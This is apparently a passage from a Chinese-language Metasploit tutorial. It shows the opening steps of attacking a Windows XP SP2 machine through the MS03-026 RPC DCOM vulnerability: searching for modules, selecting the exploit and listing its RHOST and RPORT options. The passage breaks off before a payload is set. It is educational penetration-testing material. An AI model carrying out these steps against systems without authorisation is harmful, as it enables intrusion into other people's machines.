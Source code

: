 ```

## 准备工作

我们将从`msfconsole`开始我们的渗透测试过程。因此，启动控制台并执行端口扫描以收集有关目标的信息。我们在上一章节中详细讨论了端口扫描。在这里，我假设您已经收集了有关目标的信息，并且它正在运行 Windows XP 操作系统。因此，让我们继续选择攻击和有效载荷。

## 如何做...

要在 Windows XP SP2 机器上执行渗透测试，请按照以下步骤进行：

1.  主要目标是选择一个可以在 Windows XP 机器上使用的攻击。您可以浏览`/exploits/windows`目录，或者简单地搜索 Windows XP 平台上可用攻击的列表。我们将使用 RPC `dcom`漏洞来渗透我们的目标。因此，让我们首先搜索 RPC `dcom`漏洞，使用以下命令：

```
    msf exploit(ms03_026_dcom) > search dcom
    Matching Modules
    ================
    Name Disclosure Date Rank Description
    ---- --------------- --- -----------
    exploit/windows
    dcerpc/ms03_026_dcom 2003-07-16 great Microsoft RPC
    xploit/windows/
    driver/
    broadcom_wifi_ssid 2006-11-11 low Broadcom Wireless
    xploit/windows/
    smb/ms04_031_netdde 2004-10-12 good Microsoft NetDDE 
    ```

如我们所见，搜索产生了三个结果。我们将使用第一个攻击，因为它的`rank`列为`great`，因此成功率会更高。

1.  为了将`exploit/windows/dcerpc/ms03_026_dcom`设置为可用的攻击，我们将执行以下命令：

```
    msf exploit(ms03_026_dcom) > use exploit/windows/dcerpc/ms03_026_dcom
    msf exploit(ms03_026_dcom) > 
    ```

提示符的更改表示命令已成功执行。

1.  下一步将是设置 exploit 的各种参数。`show options`命令将列出 exploit 中可用的参数。然后，通过使用`set`命令，我们可以设置各种参数。某些参数也将具有默认值：

```
    msf exploit(ms03_026_dcom) > show options
    Module options (exploit/windows/dcerpc/ms03_026_dcom):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    RHOST yes The target address
    RPORT 135 yes The target port
    Exploit target:
    Id Name
    -- ----
    0 Windows NT SP3-6a/2000/XP/2003 Universal 
    ```
